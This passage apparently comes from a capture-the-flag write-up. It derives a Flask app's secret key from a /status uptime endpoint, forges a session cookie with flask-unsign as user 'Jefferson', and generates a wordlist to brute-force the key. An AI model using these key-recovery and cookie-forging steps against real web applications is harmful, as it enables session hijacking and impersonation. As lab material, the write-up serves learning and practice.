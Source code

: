 ### get_secret.py
I used this script to potentially find the exact value of the secret by subtracting current datetime with the results from /status but did not work. It helped since I got the year and close with the correct value.

```python
from datetime import datetime, timedelta
import requests 
import re
resp = requests.get("http://challenge.nahamcon.com:31915/status")

print(resp.text)

match = re.search(r"(\d+) days (\d+) hours (\d+) minutes", resp.text) 
if match:
    days= int(match.group(1))
    hours = int(match.group(2))
    minutes = int(match.group(3))

    current_date = datetime.now() 
    timedelta_to_subtract = timedelta(days=days, hours=hours, minutes=minutes)

    resulting_date = current_date - timedelta_to_subtract
    print("Resulting date and time:", resulting_date)
    formatted = resulting_date.strftime("%Y%m%d%H%M")
    
    secret_key = f'THE_REYNOLDS_PAMPHLET-{formatted}'
    print(secret_key)
```
![Alt text](images/image-4.png)

output `THE_REYNOLDS_PAMPHLET-179708251645`. We can try this and forge our own cookie and submit to the `/message` endpoint but this will not work. 
```bash
flask-unsign --sign --cookie "{'name': 'Jefferson'}" --secret 'THE_REYNOLDS_PAMPHLET-179708251645'
```
Since we already know parts of the key and the rest are just datetime integers can just brute-force this since we know its year/month is most likely correct. Worst case brute-force each digit which is not that complex as well.


### brute-force flask key
```bash
#!/bin/bash

for i in {0..99999}; do
    echo "THE_REYNOLDS_PAMPHLET-1797082$i"
done > words.txt
```
